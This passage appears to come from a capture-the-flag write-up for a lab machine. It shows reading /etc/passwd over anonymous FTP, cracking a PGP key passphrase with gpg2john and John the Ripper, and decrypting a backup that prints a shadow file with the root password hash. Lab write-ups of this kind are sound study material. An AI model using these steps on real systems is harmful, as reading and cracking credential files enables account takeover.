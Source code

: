 Looking at **/etc/passwd** using the **less** command while still in FTP:

```
root:x:0:0:root:/root:/bin/bash
melodias:x:1000:1000:anonforce,,,:/home/melodias:/bin/bash
```

So we do only have the one user we saw in /home other than root.

Looking in the root of the file system shows us a non standard directory named **notread** that has 777 permissions:

```
drwxrwxrwx    2 1000     1000         4096 Aug 11  2019 notread
```

And inside that directory:

```
-rwxrwxrwx    1 1000     1000          524 Aug 11  2019 backup.pgp
-rwxrwxrwx    1 1000     1000         3762 Aug 11  2019 private.asc
```

I download both of thse files to my system.

Let's use **gpg2john** to crack **private.asc**:

`gpg2john private.asc > hash`

And then we'll run the hash through **John the Ripper**:

`john hash`

```
<REDACTED>          (anonforce)
```

Now that we have the password we should hopefully be able to import it into gpg and decrypt the backup.pgp file.

`gpg --import private.asc`

```
gpg: keybox '/home/kali/.gnupg/pubring.kbx' created
gpg: /home/kali/.gnupg/trustdb.gpg: trustdb created
gpg: key B92CD1F280AD82C2: public key "anonforce <melodias@anonforce.nsa>" imported
gpg: key B92CD1F280AD82C2: secret key imported
gpg: key B92CD1F280AD82C2: "anonforce <melodias@anonforce.nsa>" not changed
gpg: Total number processed: 2
gpg:               imported: 1
gpg:              unchanged: 1
gpg:       secret keys read: 1
gpg:   secret keys imported: 1
```

And then we run a decrypt command:

`gpg --decrypt backup.pgp`

```
gpg: WARNING: cipher algorithm CAST5 not found in recipient preferences
gpg: encrypted with 512-bit ELG key, ID AA6268D1E6612967, created 2019-08-12
      "anonforce <melodias@anonforce.nsa>"
root:$6$07nYFaYf$F4VMaegmz7dKjsTukBLh6cP01iMmL7CiQDt1ycIm6a.bsOIBp0DwXVb9XI2EtULXJzBtaMZMNd2tV4uob5RVM0:18120:0:99999:7:::
daemon:*:17953:0:99999:7:::
bin:*:17953:0:99999:7:::
sys:*:17953:0:99999:7:::
sync:*:17953:0:99999:7:::
games:*:17953:0:99999:7:::
man:*:17953:0:99999:7:::
lp:*:17953:0:99999:7:::
mail:*:17953:0:99999:7:::
news:*:17953:0:99999:7:::
```